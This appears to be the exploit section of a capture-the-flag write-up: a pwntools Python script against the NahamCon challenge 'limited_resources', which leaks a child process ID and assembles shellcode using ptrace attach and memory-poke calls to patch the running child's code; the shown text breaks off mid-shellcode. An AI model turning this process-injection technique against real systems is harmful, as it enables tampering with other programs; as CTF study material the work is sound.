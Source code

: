 ### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

# patched binary version with shorter sleep
exe = ELF('./limited_resources_patched')

host, port = "challenge.nahamcon.com", "32422"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

sla('Exit\n','2')
pid = int(rcu('PID = ','\n'),10)
logleak('pid',pid)

shellc = asm('''
looping:

  mov ebp,%d        /* ebp = pid of child */
// ptrace(PTRACE_ATTACH,child,0,0)
  mov edi,0x10
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall

// wait a bit
  mov rcx,0xffffffff
wait:
  nop
  nop
  loop wait

/* patch program to remove jmp after call to sleep() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x4018df
  mov r10,0xE800402090bf9090
  mov eax,101
  syscall
```